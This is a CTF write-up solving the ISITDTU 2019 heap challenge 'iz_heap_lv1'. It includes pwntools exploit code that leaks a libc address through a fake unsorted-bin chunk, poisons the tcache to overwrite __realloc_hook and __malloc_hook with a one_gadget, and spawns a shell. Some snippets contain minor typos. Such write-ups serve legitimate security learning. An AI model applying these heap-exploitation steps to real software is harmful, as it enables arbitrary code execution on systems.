# ISITDTU 2019 - iz_heap_lv1

Unknown origin challenge link! But you can download challenge here: [iz_heap_lv1.zip](iz_heap_lv1.zip)

There will be 2 file in zip:
- libc.so.6
- iz_heap_lv1

Download it, then use pwninit or patchelf to patch file. And now, let's start!

# 1. Find bug

First, we will use `file` command to check information of challenge file:

```
iz_heap_lv1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=03331a270efbb8a9456c60ae90f44cb384028f76, stripped
```
This is a 64-bit stripped, quite hard for debugging. Next, we will use `checksec` to check for security:

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```
We can see there is no PIE, that's sound better when we need to debug. Finally, let's fire up ghidra and put our file into it. There are a lot of function (I renamed it) but we will drive through it.

main() is quite simple:



get_name() will read from input into a global variable with address 0x602100:



add() will malloc() and then save address into a global array with address 0x602060:



edit() will free and then malloc again:



delete() will free() indicated address via index and then set null to array[index]:



show() will ask if we want to edit name before print or not:



Nothing is interesting when decompiling. Let's examine in gdb to understand more. 

First, we will examine those global variable. We know that the string name is at 0x602100 and the array which save malloc() address is at 0x602060. Those address are too close!

Moreover, we can also see that we can create upto 20 note (max index = 20) and luckily, it will point to the begining of our string of name (0x602060 + 20 * 8 = 0x602100). Wonderful!

With index upto 20 and point to our string name, we can create fake heap and then redirect or do plenty of interesting things!

And we cannot get any things else so just let's start brainstorming.

# 2. Idea

- Knowledge 1: Tcache just can store upto 7 freed chunk with the same size. The 8th free chunk with the same size will go to fastbin (if a suitable size) or will go to unsorted bin (if size is larger than fastbin)



- Knowledge 2 (pwntool): we can use fit() and flat() instead of p32() or p64() base on context.binary = exe

For example, this code:

```
exe = ELF('./<Some 64-bit file>')
context.binary = exe 					# will give result of p32() or p64()

data1 = flat(0xdeadbeef, 0, 0xcafebabe, 0)
data2 = fit({
	0x0: flat(0, 0x90),
	0x20: flat(0xabcd, 0x30)
	}, filler = b'\x05')			# filler is padding with character b'\x05'
```

equal to:

```
data1 = p64(0xdeadbeef) + p64(0) + p64(0xcafebabe) + p64(0)
data2 = ''
data2 = l.just(0x0, b'\x05)
data2 += p64(0) + p64(0x90)
data2 = l.just(0x20, b'\x05)
data2 += p64(0xabcd) + p64(0x30)
```

- First idea:

So we will create 7 chunks and then free them. Then we free the fake chunk created in string name to make that fake chunk goes to unsorted bin, and this bin will write main arena address (relate to libc) to this chunk.

Then we execute show() to get address leak and calculate libc base address. Finally, we abuse link list of tcache (overwrite forward pointer) to overwrite some hook (malloc_hook, realloc_hook...) with one_gadget.

- Summary:
  1. Leak address and calculate
  2. Overwrite some hook and spawn shell

# 3. Exploit

We will write script for easy handling with these function:

```
def add(size, data):
    p.sendlineafter(b'Choice:', b'1')
    p.sendlineafter(b'Enter size:', '{}'.format(size).encode())
    p.sendafter(b'Enter data:', data)

def edit(index, size, data):
    p.sendlineafter(b'Choice:', b'2')
    p.sendlineafter(b'Enter index:', '{}'.format(index).encode())
    p.sendlineafter(b'Enter size:', '{}'.format(size).encode())
    p.sendafter(b'Enter data:', data)

def delete(index):
    p.sendlineafter(b'Choice:', b'3')
    p.sendlineafter(b'Enter index:', '{}'.format(index).encode())

def set_name(name=b'default'):
    p.sendafter(b'Input name:', name)

def show(edit=b'N', name=b'default'):
    p.sendlineafter(b'Choice:', b'4')
    p.sendlineafter(b'(Y/N)', edit)
    if edit==b'Y':
        set_name(name)
    return p.recvline()
```

- Step 1: Leak address and calculate

As above knowledge, we just create and free 7 chunk with the same size (larger than fastbin), so we will use chunk with size of `0x90` (metadata is 0x10 and data is 0x80). And then we free the fake chunk in string name with index 20. 

So for first input of name, we have following payload:

```
pointer_to_fake_chunk = flat(0x602100 + 0x20, 0)
fake_chunk = fit({
	0x0: flat(0, 0x91),
	0x90: flat(0, 0x21),	# Avoid heap consolidation
	0xb0: flat(0, 0x21)	# Avoid heap consolidation
	}, filler = b'\x00')
set_name(pointer_to_fake_chunk + fake_chunk)
```

Then we create and free 7 chunk with our fake chunk to get libc

```
for i in range(7):
	add(0x80, str(i).encode()) # Data is not important
for i in range(7):
	delete(i)
delete(20)
```



To leak the address via printf, we need to remove null bytes, change them to another character so that printf will print all the address for us. And this work can be done by using show() function, edit null byte to 'A' and them just print the name.

```
show(b'Y', b'A'*0x20)
```



Now we have leaked address. Calculating libc_base and chose 1 gadget, then calculate its address:



We will take the third one (Because I have try with the second one but not succeeded). 

And that's all! Let's move on step 2

- Step 2: Overwrite some hook and spawn shell

Now we need our fake chunk in tcache, abuse link list to overwrite forward pointer. So that we will create a small fake chunk with size of 0x70 (if create a chunk with size of 0x90 as above will cause error) and then free it:

```
pointer_to_fake_chunk = flat(0x602100 + 0x20, 0)
fake_heap = fit({
    0x0: flat(0, 0x71),
    0x70: flat(0, 0x21),	# Avoid heap consolidation
    0x90: flat(0, 0x21)		# Avoid heap consolidation
    }, filler = b'\x00')
show(b'Y', pointer_to_fake_chunk + fake_chunk)		# Create fake junk
delete(20)		            # Chunk goes to tcache
```



At first, I tried to overwrite `__malloc_hook` but it can not control the stack to satisfy the contraint of one_gadget. So we will use `__libc_realloc` to pop and push with a suit order. Also in `__libc_realloc` source code, it will check if `__realloc_hook` is null byte or not at the begining. If not, the `__realloc_hook` is executed

Source code of `__realloc_hook`:

```
__libc_realloc (void *oldmem, size_t bytes)
{
    .
    .
    .
    void *(*hook) (void *, size_t, const void *) = atomic_forced_read (__realloc_hook);
    if (__builtin_expect (hook != NULL, 0))
        return (*hook)(oldmem, bytes, RETURN_ADDRESS (0));
    .
    .
    .
}
```

After examining `__realloc_hook` and `__malloc_hook`, we can see that `__realloc_hook` is right before `__malloc_hook`:



So now we use show() (python script) to overwrite the forward pointer with `__realloc_hook`. Then we overwrite `__realloc_hook` with our one_gadget and `__malloc_hook` with `__libc_realloc`. 

Before continue, we need to know at which push in prologue combine with pop in epilogue to get null byte at `rsp+0x70`. After a while trying, we know at `__libc_realloc + 6` will help us get null byte stack. 

Now let's continue writing our script. Because our fake chunk went to tcache, so all we need is overwrite forward pointer to `__realloc_hook`, malloc 2 chunk with the same size and overwrite:

```
show(b'Y', flat(0x602120, 0, 0, 0x71, libc_base + libc.sym['__realloc_hook']))

# Keep the same forward pointer point to realloc_hook
add(0x60, flat(libc_base + libc.sym['__realloc_hook']))

# Overwrite __realloc_hook with one_gadget and __malloc_hook with __libc_realloc+6
add(0x60, flat(libc_base + libc.sym['one_gadget'], libc_base + libc.sym['__libc_realloc']+6))
```





All we need is just a simple malloc() to get shell.

```
p.sendlineafter(b'Choice:', b'1')
p.sendlineafter(b'Enter size:', b'0'

p.interactive()
```

Full code: [solve.py](solve.py)

# 4. Find flag

Because server closed so I will run it on local machine instead.



